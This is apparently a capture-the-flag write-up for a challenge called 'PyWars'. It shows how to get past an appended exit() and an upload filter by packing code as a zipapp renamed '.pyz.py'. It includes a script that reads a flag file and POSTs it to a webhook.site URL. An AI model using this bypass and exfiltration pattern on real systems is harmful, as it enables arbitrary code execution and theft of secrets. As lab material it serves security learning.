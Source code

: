 # ♖ PyWars ♖
> Author: 堇姬Naup

## analyze
Go to read source code.
You can upload one python file, it will add `exit()\n` on your upload's file and use `python3 <your upload python file>`.
So if you can bypass code which it add. You will execute any python's code.

Let me look how to bypass.
Read python's document, we will read this
https://docs.python.org/3.14/library/zipapp.html

You can pack your `.py` to `.pyz`
If we add some bytes in front of `zip's magic number`, it still can be execute.
And then pyz can use `python3 script.pyz`.

```
00000000: 504b 0304 1400 0000 0000 9753 7f5a dc1b  PK.........S.Z..
00000010: 5faa 2e02 0000 2e02 0000 0b00 0000 5f5f  _.............__
```
So we write code at `script/__main__.py`, and pack it to pyz.

OK, let me review code.
It have filter, and just upload `.py`
But we can use `script.pyz.py`, it can bypass its filter.

## script
run.sh
```sh
python3 -m zipapp script
mv script.pyz script.pyz.py
```

script/\_\_main\_\_.py
```py
import urllib.request
import os
import json

flag = os.popen('cat /app/flags/flag_7fc489cb-4e06-4cc8-9404-f856816c2033.txt').read().strip()
url = 'https://webhook.site/4942a284-d09e-417c-9039-d335aaf9af4b'
data = json.dumps({'flag': flag}).encode('utf-8')
req = urllib.request.Request(url, data=data, headers={'Content-Type': 'application/json'}, method='POST')

try:
    response = urllib.request.urlopen(req)
    content = response.read()
    print(f"success: {content.decode('utf-8')}")
    
except urllib.error.URLError as e:
    print(f"error: {e}")
```

We use request send flag to your server.
